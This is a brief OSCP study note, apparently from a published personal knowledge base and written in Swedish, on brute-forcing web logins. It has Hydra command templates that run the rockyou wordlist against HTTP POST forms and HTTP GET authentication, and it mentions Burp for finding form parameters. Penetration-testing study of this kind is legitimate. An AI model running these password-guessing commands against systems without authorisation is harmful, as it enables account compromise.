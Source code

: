```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/7-password-attacks/2-http-login-attack/"}
---
```



### HTTP-POST Attack:
1. Använd Burp för att ta reda på 1. Parameternamnen för inloggningen, och 2. Errortexten vid misslyckad inloggning
2. Exempel Hydra:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/index.php:user=username&password=^PASS^:Login failed. Invalid"
```

### HTTP-GET Attack:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 80 -f <ip> http-get
```
